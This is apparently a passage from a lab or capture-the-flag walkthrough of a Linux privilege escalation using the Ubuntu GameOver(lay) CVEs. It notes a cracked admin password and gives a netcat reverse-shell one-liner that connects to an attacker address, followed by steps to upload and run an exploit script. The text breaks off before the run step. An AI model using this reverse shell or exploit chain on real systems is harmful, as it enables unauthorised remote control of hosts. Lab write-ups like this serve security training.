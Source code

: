 **<u>Bcrypt passwords:</u>**

**Admin : 123456**

but it doesn't give us anymore access

**<u>Priv Esc -- CVE-2023-2640/CVE-2023-32629</u>**

- The kernel version is vulnerable:

![image18](../resources/749a8319d6f34c26b1ec8de7e18211f7.png)


![image19](../resources/2d93d3afbbba48328b12d964f6927901.png)

<https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629>

<https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a>


![image20](../resources/68accd0f44cb4188a22b05e9cb504fab.png)

- Send the shell to Kali:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.31 9000 >/tmp/f

```
- Upload the exploit.sh to the webserver

```bash
chmod +x exploit.sh

```
- And run
